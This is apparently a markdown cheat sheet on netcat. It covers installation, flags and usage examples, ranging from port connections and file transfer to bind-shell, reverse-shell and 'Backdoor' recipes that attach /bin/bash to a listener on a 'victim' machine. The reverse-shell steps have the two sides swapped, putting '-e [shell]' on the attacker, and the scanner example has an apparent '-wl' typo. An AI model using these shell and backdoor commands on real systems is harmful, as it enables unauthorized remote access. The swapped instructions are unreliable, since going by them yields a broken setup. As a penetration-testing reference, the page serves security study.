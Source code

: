 # Cybersecurity Utility - netcat

## Table of Contents
- [Information](#information)
- [Setup](#setup)
- [Documentation](#documentation)
- [Resources](#resources)
- [References](#references)
- [Remarks](#remarks)
- [Notes](#notes)

## Information

+ Utility Type: Network Debugging and Exploration
+ Tool Area of Efficiency : Offensive (Red Team), Defensive (Blue Team)
+ Penetration Testing stage : Reconnaissance
+ Package Name: netcat
+ Repository URL: 

### DESCRIPTION

```
netcat - also known as 'nc', is a command-line utility for Linux used by network administrators and security experts that can read and write data across network connections using the TCP and UDP protocol.

It is designed to be a reliable "backend" tool used directly or driven by other programs via scripts.

nc is also a feature-rich network debugging and exploration tool.
```

## Setup

### Pre-Requisites


### Dependencies


### Obtaining
- Using Package Manager
	- Debian-based (apt)
		```console
		sudo apt(-get) install netcat
		```
	- Arch-based (pacman)
		```console
		sudo pacman -S netcat
		```

## Documentation

### Synopsis/Syntax

```console
nc [{options} [arguments]...] [target-ip] [port-number]
```

### Parameters
+ -e [cmd] : Executes a command when connection is established; typicall is a shell (i.e. /bin/bash) for backdoor connections
+ -h : Display this help menu
+ -l : Start listener/server mode to connect from a remote system
+ -n : Do not do any DNS or service lookups on any specific addresses, hostnames or ports
+ -p [port-number] : Set a port number to listen through
+ -v : Verbose; Display detailed information of the standard output
+ -w [timeout] : Set connections to timeout after [timeout] seconds if cannot be established or are idle
+ -z : Specifies that nc should only scan for listening daemons, without sending any data to them; Cannot use with *-l*

### Usage
- Connect to a target on port 21
	```console
	nc 10.0.2.5 21
	```
    
- Listening for inbound connections on some port (Run a simple server)
    ```console
    nc -l -p [port-number]
    ```
- Connect to a target machine on port 80
    ```console
    nc [target-machine-ip] 80
    ```
    
- Connect a remote target/victim system (Bind Shell)
	- On the target/victim system
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```
	- On the attacker system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```

- Connect from a remote target/victim system (Reverse Shell)
	- On the target/victim system
		```console
		nc [target-ip-address] [port-number-to-connect]
		```
	- On the attacker system
		```console
		nc -l -v -p [port-number-to-listen] -e [shell]
		```

- To transfer a file 
    - Client (Listening) to download/receive the file
        ```console
        nc -l -p [port-to-listen] > [file-to-receive]
        ```
    - Server (Sending) to upload the file
        ```console
        nc -w [seconds-to-timeout] [server IP] [port-number] < [file-name]
        ```
        
- TCP Port Scanner
	```console
	nc -v -n -z -wl [domain-name or IP address] [start_port_number-end_port_number]
	```

- Backdoor
    - Put/Generate a backdoor on target machine that executes the bash shell on connection (bind shell)
        + Target listens at the specified port number
        ```console
        nc -l -p [port-number] -e /bin/bash
        ```
    - Connect to the target machine
        ```console
        nc [target-machine-IP] [port-number]
        ```

## Resources

## References
+ [computerhope - nc](https://www.computerhope.com/unix/nc.htm)

## Remarks

## Notes
